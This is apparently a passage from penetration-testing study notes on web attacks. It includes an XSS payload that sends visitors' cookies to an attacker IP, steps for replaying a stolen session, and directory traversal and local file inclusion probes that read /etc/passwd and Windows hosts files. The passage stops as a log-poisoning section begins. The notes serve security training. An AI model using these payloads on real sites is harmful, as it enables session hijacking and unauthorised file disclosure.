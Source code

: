 #### **Stealing cookies and session information**

Cross site scripting can also be used to steal cookies and session information from site visitors. 

```text
<script> new Image().src=”http://10.11.0.5/cool.jpg?output=”+document.cookie; </script>
```

When a victim visits the page, their browser established a connection back to the attacking machine with an authenticated session id \(listener required\)

Once we have the session id, we can set it in our browser using a tool like Cookie-Editor, and browse to the page without providing credentials \(assumed the cookie we captured was for an authenticated user\).

### Directory Traversal

Directory traversal allows attackers to gain access to files that should not be accessible through a web application.  These attacks are _information disclosures_ and occur when attackers are able to manipulate file paths.

#### Detection

Directory traversal vulnerabilities are often identified through the presence of file extensions in URLs.  If identified, we can then use common OS files to test for vulnerabilities.

```text
10.14.2.55/menu.php?file=index.php
```

```text
Linux - /etc/passwd
Windows - c:/boot.ini
Windows - c:/windows/system32/drivers/etc/hosts
```

### File Inclusion

Whereas directory traversal vulnerabilities only disclose information, file inclusion vulnerabilities may enable code execution.  Local file inclusion occurs when files are loaded from the local server, whereas remote file inclusion allows an attacker to included a file from an external source. These vulnerabilities are most commonly seen in php.

#### Detection

File inclusions are identified in the same way as directory traversals.  If we locate URLs that include parameters, we should test for both vulnerabilities.

We can also attempt LFI through URL manipulation

`../../../../../../windows/system32/drivers/etc/hosts`

In PHP versions below 5.3, terminate the request with a null byte "\(%00\)"

#### Contaminating log files

Use netcat to connect to the target machine on port 80, then send the following command:
